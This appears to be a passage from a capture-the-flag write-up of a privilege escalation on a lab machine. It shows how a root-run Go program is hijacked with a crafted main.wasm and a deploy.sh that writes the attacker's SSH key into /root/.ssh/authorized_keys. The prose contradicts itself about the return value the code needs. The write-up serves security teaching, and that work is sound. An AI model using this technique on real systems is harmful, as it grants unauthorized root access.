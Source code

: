 If ```instance.Exports["info"] == "1"``` It's running ```deploy.sh``` as root.

We can see ```index.go```  looking for ```main.wasm``` and ```deploy.sh``` in current directory, It's mean we can create our ```main.wasm``` that return value != 1 and to write reverse shell in ```deploy.sh```.

So first, to create ```main.wasm``` we can use:
1. [WasmFiddle](https://wasdk.github.io/WasmFiddle/) If we want to do it online.
2. [c-to-webassembly](https://github.com/richardanaya/c-to-webassembly) by compile and convert C to wasm.

Let's try to first option.

1. Create ```main.wasm```:
Write the following code:
```c
int main() { 
  return 1;
}

int info() { 
  return 1;
}
```

Build and download as ```wasm```:

![wassmfiddle.JPG](images/wassmfiddle.JPG)

2. Create ```deploy.sh```:
```bash
echo "ssh-rsa <YOUR_SSH_PUBLIC_KEY>" > /root/.ssh/authorized_keys
```

Upload it to target machine:
```console
admin@ophiuchi:/tmp/test$ ls
deploy.sh  main.wasm
```
